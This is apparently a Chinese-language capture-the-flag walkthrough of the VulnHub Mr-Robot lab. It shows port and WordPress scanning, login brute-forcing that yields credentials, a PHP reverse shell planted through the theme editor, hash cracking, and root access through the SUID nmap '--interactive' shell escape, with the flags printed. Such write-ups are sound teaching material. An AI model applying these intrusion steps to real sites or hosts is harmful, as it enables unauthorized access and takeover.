 ## port scan

```shell
# Nmap 7.94SVN scan initiated Wed Nov 13 05:47:12 2024 as: nmap -sT --min-rate 5000 -p- -oN nmap_results/port_scan 192.168.56.130
Nmap scan report for 192.168.56.130
Host is up (0.0029s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https
MAC Address: 08:00:27:6D:16:DE (Oracle VirtualBox virtual NIC)
```

```shell
# Nmap 7.94SVN scan initiated Wed Nov 13 05:48:48 2024 as: nmap -sT -sV -sC -O -p22,80 -oN nmap_results/detils_scan 192.168.56.130
Nmap scan report for 192.168.56.130
Host is up (0.0011s latency).

PORT   STATE  SERVICE VERSION
22/tcp closed ssh
80/tcp open   http    Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
MAC Address: 08:00:27:6D:16:DE (Oracle VirtualBox virtual NIC)
Aggressive OS guesses: Linux 3.10 - 4.11 (98%), Linux 3.2 - 4.9 (94%), Linux 3.2 - 3.8 (93%), Linux 3.18 (93%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 4.2 (92%), Linux 4.4 (92%), Linux 3.16 - 4.6 (91%), Linux 2.6.26 - 2.6.35 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
```

vuln_scan

```shell
# Nmap 7.94SVN scan initiated Wed Nov 13 05:50:21 2024 as: nmap --script=vuln -p22,80 -oN nmap_results/vuln_scan 192.168.56.130
Nmap scan report for 192.168.56.130
Host is up (0.00085s latency).

PORT   STATE  SERVICE
22/tcp closed ssh
80/tcp open   http
| _   Form action: http://192.168.56.130/
|     
|     Path: http://192.168.56.130:80/js/BASE_URL1%22/live/
|     Form id: 
|     Form action: http://192.168.56.130/
|     
|     Path: http://192.168.56.130:80/js/BASE_URL1%22/live/
|     Form id: 
|     Form action: http://192.168.56.130/
|     
|     Path: http://192.168.56.130:80/wp-login.php
|     Form id: loginform
|_    Form action: http://192.168.56.130/wp-login.php
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /wp-login.php: Possible admin folder
|   /robots.txt: Robots file
|   /feed/: Wordpress version: 4.3.1
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|   /0/: Potentially interesting folder
|_  /image/: Potentially interesting folder
MAC Address: 08:00:27:6D:16:DE (Oracle VirtualBox virtual NIC)
```

## web

识别一下

```shell
whatweb http://192.168.56.131
```

apache服务

![image-20241114112127207](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241114112127207.png)

`wordpress`4.3.1

`wpscan`扫描，枚举用户一个没有

```shell
wpscan --url http://192.168.56.131 -e u
```

目录扫描

```shell
dirsearch -u http://192.168.56.131/
```

```
200   614B   http://192.168.56.130/admin/
200   677B   http://192.168.56.130/admin/index
200   677B   http://192.168.56.130/admin/index.html
200     0B   http://192.168.56.130/favicon.ico
200   504KB  http://192.168.56.130/intro
200   158B   http://192.168.56.130/license
200   158B   http://192.168.56.130/license.txt
200    64B   http://192.168.56.130/readme
200    64B   http://192.168.56.130/readme.html
200    41B   http://192.168.56.130/robots.txt
200     0B   http://192.168.56.130/sitemap
200     0B   http://192.168.56.130/sitemap.xml
200     0B   http://192.168.56.130/sitemap.xml.gz
200    21B   http://192.168.56.130/wp-admin/admin-ajax.php
200     0B   http://192.168.56.130/wp-config.php
200     0B   http://192.168.56.130/wp-content/
200     0B   http://192.168.56.130/wp-content/plugins/google-sitemap-generator/sitemap-core.php
200     0B   http://192.168.56.130/wp-cron.php
200     1KB  http://192.168.56.130/wp-login
200     1KB  http://192.168.56.130/wp-login.php
200     1KB  http://192.168.56.130/wp-login/
```

```shell
┌──(root㉿kali)-[~/vulnhub/Mr-robot]
└─# curl http://192.168.56.131/robots.txt
User-agent: *
fsocity.dic
key-1-of-3.txt
```

`key-1-of-3.txt`:`073403c8a58a1f80d943455fb30724b9`

`fsocity.dic`是一个字典，可能是用户密码

去重一下

```shell
┌──(root㉿kali)-[~/vulnhub/Mr-robot]
└─# cat fsocity.dic|sort | uniq > pass.txt                     
                                                                                                                                                                          
┌──(root㉿kali)-[~/vulnhub/Mr-robot]
└─# wc -l pass.txt                         
11451 pass.txt
```

先去爆破用户名，因为用户名存不存在返回包的长度不一样的

![image-20241114122152351](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241114122152351.png)

`Elliot`用户是存在的，接着爆破密码

```shell
wpscan --url http://192.168.56.131 -U Elliot -P pass.txt
```

![image-20241114122747488](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241114122747488.png)

`Username: Elliot, Password: ER28-0652`

## reverse shell

可以编辑主题的文件，直接写个php反弹shell

![image-20241114123029355](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241114123029355.png)

随便访问不存在的页面会触发404.php

robot家目录，有一个md5:`robot:c3fcd3d76192e4007dfb496cca67e13b`

爆破密码得：`abcdefghijklmnopqrstuvwxyz`

切换用户

```shell
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

## SUID提权

查找suid权限的文件

```shell
robot@linux:~$ find / -type f -perm -4000 2>/dev/null
find / -type f -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
```

有`nmap`可以用

```shell
robot@linux:~$ nmap -V
nmap -V

nmap version 3.81
```

版本是3.81，可以拿到一个交互式的shell

> 2.02 - 5.21版本可以通过`nmap --interactive`拿到交互式shell

![image-20241114124012350](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241114124012350.png)

```shell
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !bash -p
!bash -p
bash-4.3# whoami
whoami
root
bash-4.3# cd /root
cd /root
bash-4.3# ls
ls
firstboot_done  key-3-of-3.txt
bash-4.3# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

